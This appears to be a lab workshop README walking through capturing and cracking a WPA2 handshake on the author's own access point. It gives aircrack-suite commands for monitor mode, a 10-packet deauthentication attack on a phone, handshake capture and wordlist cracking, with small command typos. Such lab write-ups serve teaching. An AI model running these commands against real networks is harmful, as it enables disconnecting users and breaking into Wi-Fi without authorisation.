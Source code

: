 # Wi\-Fi Hacking Workshop

Summary: I will be gathering the Access Point MAC address and MAC address of my phone. I will then 
send 10 deauthentication packets which will cause my phone to disconnect and reauthenticate to the Access Point. We then capture the authentication prcoess save it locally and crack the password
![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

sudo apt\-get update

sudo apt\-get install linux\-headers\-$\(uname \-r\)

git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

cd rtl8812au

make

sudo insmod 8812au\.ko

sudo cp 8812au\.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless

sudo depmod

sudo apt\-get install build\-essential dkms

sudo make dkms\_install

echo 8192eu | sudo tee \-a /etc/modules

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

sudo airmon\-ng check kill checks for conflicting processes and kills them. This howver will result in loss of internet for the VM, can be solved by restarting.

Iwconfig shows the adapter names. In my case wlan0 is the wireless adapter.

sudo airmon\-ng start wlan 0 - Starts the wireless adapter in monitor mode.

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

![](img/WifiHackingWorkshop4.png)

sudo airodump\-ng \-c 11 wlan0 - discovers access points on channel 11 using wlan0

BSSID is the access point MAC address of the router. In this case we are looking at the BSSID for CyberSec

### Discovering devices

The MAC address of 0C:8D:CA:A6:94:8D is my phone and that is where the deauthentication packets are getting sent.

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

sudo airodump\-ng \-c 11 \-\-bssid B0\-95\-75\-5C\-3B\-94 \-w psk wlan0 - this captures packets for the CyberSec accesspoint and saves it locally to a file named psk

sudo aireplay\-ng \-0 10 \-a B0:95:75:5C:3B:94 \-c 0C:8D:CA:A6:93:8D wlan0 - This sends 10 deauthentication packets to my phone which will disconnect from the Access Point and automatically reconnect. The reauthenication process for the wpa2 handshake is captured and saved locally

![](img/WifiHackingWorkshop6.png)

### Cracking Password
Using the previous wpa2 handshake capture we can brute force the password using a passwordlist. I created one called passwordlist with the password of Password1 in it for lab demostration purpose. But Kali has default wordlists in the /usr/share/wordlists directory

aircrack\-ng \-w passwordlist\.txt psk\-02\.cap - This is what is used to crack the password.

![](img/WifiHackingWorkshop7.png)

